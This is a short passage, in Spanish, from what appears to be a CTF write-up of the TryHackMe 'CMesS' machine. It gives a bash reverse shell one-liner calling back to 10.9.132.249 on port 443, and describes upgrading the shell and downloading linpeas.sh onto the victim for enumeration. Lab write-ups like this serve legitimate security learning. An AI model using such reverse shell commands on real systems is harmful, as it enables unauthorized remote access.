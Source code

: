 ```bash
/bin/bash -i >& /dev/tcp/10.9.132.249/443 0>&1
```

pero lo mandaremos de esta manera

![Untitled](/assets/images/2022-02-12-writeup-maquina-thm-cmess/Untitled%209.png)

obteniendo una reverse shell exitosa, solo upgradear tty shell interactiva

![Untitled](/assets/images/2022-02-12-writeup-maquina-thm-cmess/Untitled%2010.png)

dejaremos un servidor web en python

![Untitled](/assets/images/2022-02-12-writeup-maquina-thm-cmess/Untitled%2011.png)

descargamos en la maquina victima, damos permisos y ejecutamos linpeas.sh 
